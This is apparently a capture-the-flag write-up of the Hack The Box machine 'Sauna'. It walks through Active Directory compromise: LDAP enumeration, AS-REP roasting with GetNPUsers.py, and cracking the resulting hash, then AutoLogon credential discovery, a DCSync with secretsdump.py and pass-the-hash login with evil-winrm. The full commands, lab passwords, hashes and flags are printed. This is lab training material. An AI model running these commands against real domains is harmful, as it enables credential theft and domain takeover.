


# Sauna

Author: Ewaël

`nmap -sC -sV -oN nmap 10.10.10.175 -v -A` shows a lot of open ports. Let's start with the 80 one as usual.



A quick dirb does not find anything and I only find a potentially interesting page with some usernames:



Ports 389 and 3268 both have the same service running on:

```
Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
```

Let's try to see if I can get more informations on this:

```python
>>> import ldap3
>>> server = ldap3.Server('10.10.10.175', get_info = ldap3.ALL, port = 3268, use_ssl = False)
>>> connection = ldap3.Connection(server)
>>> connection.bind()
True
>>> server.info
DSA info (from DSE):
  Supported LDAP versions: 3, 2
  Naming contexts:
    DC=EGOTISTICAL-BANK,DC=LOCAL
    CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
    CN=Schema,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
    DC=DomainDnsZones,DC=EGOTISTICAL-BANK,DC=LOCAL
    DC=ForestDnsZones,DC=EGOTISTICAL-BANK,DC=LOCAL
...
```

Nice, let's see what to do with the port 88 now:

```
Microsoft Windows Kerberos
```

I decide to use `GetNPUsers.py` following this link: [https://www.tarlogic.com/en/blog/how-to-attack-kerberos](https://www.tarlogic.com/en/blog/how-to-attack-kerberos). But first I have to build a list with potential usernames. After reading about [active directory user naming conventions](https://activedirectorypro.com/active-directory-user-naming-convention) I create a little wordlist `users`.

```
python /opt/impacket/examples/GetNPUsers.py EGOTISTICAL-BANK.LOCAL/ -usersfile users -format john -dc-ip 10.10.10.175 -outputfile GetNPusers_res
```

Here is the result that I'll crack with john:

```
$krb5asrep$23$FSmith@EGOTISTICAL-BANK.LOCAL:5ed93386355a291a454e4f50f0cc97b4$1025606713db70707d840868a670f563d7c0e5f45f7aa82fded3a4a83c7374cb92dad79a50140b0a0c9e25fd325acccb92c6dc33f57cb03e1c2397d5bae79502af27f259b4ea3daba126943ac2a29bc7fae69f8581a31ed8567b4d2f783af048477e7da67ccd360c21c4710317a5a4267bd6ff5e9909d1a79927c909bcdb69f0501f1acfade74c7566238b84b021dacd12294bc66e18def9bec2c6fce1dcecef5525710f26ece8f236293ad1821fdb901fd7148db2fdba8f6abe4df1a25219ab37463d424fa7c0fe9943b0bb16ff24dc8318c913671c27b6208a54828a70c8524b37df5f79cbf6c7f8dbb20d2608ec8f33a517a45b2b4200662bc640dc7ccdaf
```

The password for `FSmith` is `Thestrokes23`. I can now connect to the machine remotely with `evil-winrm -i 10.10.10.175 -u FSmith -p Thestrokes23` and get the user flag:

`1b5520b98d97cf17f24122a55baf70cf`

To begin my privilege escalation I upload `winPEAS.exe`:

```
  [+] Looking for AutoLogon credentials(T1012)
    Some AutoLogon credentials were found!!
    DefaultDomainName             :  EGOTISTICALBANK
    DefaultUserName               :  EGOTISTICALBANK\svc_loanmanager
    DefaultPassword               :  Moneymakestheworldgoround!
```

Trying to connect as `svc_loanmanager` fails but as `svc_loanmgr` has a user directory, I use `evil-winrm -s /usr/share/windows-resources/powersploit/Recon/ -i 10.10.10.175 -u svc_loanmgr -p Moneymakestheworldgoround!` to make it work, and it's a sucess!

I try some recon scripts as `svc_loanmgr` with powersploit modules but no luck. Googling about AD exploitation I find `https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py` that I decide to use considering I have every informations I need to do so:

```
secretsdump.py -just-dc-ntlm EGOTISTICAL-BANK.LOCAL/SVC_LOANMGR:"Moneymakestheworldgoround\!"@10.10.10.175
```

*Note: the `\` is required on zsh to avoid errors with `!`.*

I get the following result:

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:d9485863c1e9e05851aa40cbb4ab9dff:::
```

Let's try to connect as `Administrator` directly with the hash: `evil-winrm -i 10.10.10.175 -u Administrator -H d9485863c1e9e05851aa40cbb4ab9dff`... And that's it! I now have my root shell and flag:

`f3ee04965c68257382e31502cc5e881f`
